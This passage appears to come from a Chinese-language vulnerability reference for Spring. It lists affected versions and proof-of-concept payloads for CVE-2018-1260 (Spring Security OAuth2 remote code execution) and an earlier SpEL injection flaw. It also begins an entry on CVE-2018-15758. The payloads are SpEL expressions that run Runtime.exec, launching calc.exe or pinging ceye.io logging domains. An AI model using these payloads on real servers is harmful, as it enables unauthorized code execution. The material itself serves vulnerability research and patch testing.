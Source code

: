 [https://www.cnblogs.com/hac425/p/9656747.html](https://www.cnblogs.com/hac425/p/9656747.html)

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/e04343b4-0166-49f6-af37-f9c4df96cf95.png?raw=true)

POC：

```


1.  `username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")]=xxx`
2.  `username[T(java.lang.Runtime).getRuntime().exec("ping+xxx.ceye.io")]=test`


```

### [](#CVE-2018-1260-Spring-Security-Oauth2-远程代码执行 "CVE-2018-1260 Spring Security Oauth2 远程代码执行")CVE-2018-1260 Spring Security Oauth2 远程代码执行

影响版本：

```


1.  `Spring  Security  OAuth  2.3 to 2.3.2`
2.  `Spring  Security  OAuth  2.2 to 2.2.1`
3.  `Spring  Security  OAuth  2.1 to 2.1.1`
4.  `Spring  Security  OAuth  2.0 to 2.0.14`


```

[https://www.seebug.org/vuldb/ssvid-97287](https://www.seebug.org/vuldb/ssvid-97287)

此漏洞和CVE-2016-4977类似

POC：

```


1.  `http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22ping%20r9rub4.ceye.io%22%29%7D`


```

### [](#CVE-2018-15758-spring-security-oauth2权限提升 "CVE-2018-15758 spring-security-oauth2权限提升")CVE-2018-15758 spring-security-oauth2权限提升

影响版本：

```


1.  `Spring  Security  OAuth  2.3至2.3.3`
2.  `Spring  Security  OAuth  2.2至2.2.2`
3.  `Spring  Security  OAuth  2.1至2.1.2`
4.  `Spring  Security  OAuth  2.0到2.0.15`


```
